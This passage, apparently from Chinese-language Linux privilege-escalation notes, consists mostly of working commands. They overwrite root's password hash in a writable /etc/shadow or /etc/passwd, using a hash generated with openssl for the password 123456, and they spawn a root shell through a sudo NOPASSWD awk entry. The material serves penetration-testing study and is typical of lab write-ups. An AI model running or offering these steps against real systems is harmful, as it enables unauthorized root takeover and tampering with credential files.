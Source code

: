 ```bash
cp /etc/shadow /etc/shadow.bak
vim /etc/shadow

root:$6$p.wS9y3xl4i$Rh0DvYER94lLT/tnrdbO9l16Bn773.6peomyKGx0XZUreOX.BCZuJNwrr91hh5HBOFmoGH7uJz.BfVnbdoKCE71:19695:0:99999:7:::
```



```bash
su root
newpassword
```

#### 可写passwd文件

```bash
ls -l /etc/passwd
```

##### 生成密码hash值

```bash
openssl passwd 123456
```

```bash
$1$RaMnajbK$uPG5NxGvTjJ3LNXnLKvye/
```

##### 替换" x"

```bash
cp /etc/passwd /tmp/passwd.bak
vim /etc/passwd

root:$1$RaMnajbK$uPG5NxGvTjJ3LNXnLKvye/:0:0:root:/root:/bin/bash
```



```bash
su root

123456
```

##### 查看SUDO权限

```bash
cat /etc/sudoers
```



```bash
ted ALL=(ALL) NOPASSWD: /usr/bin/awk
```



```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
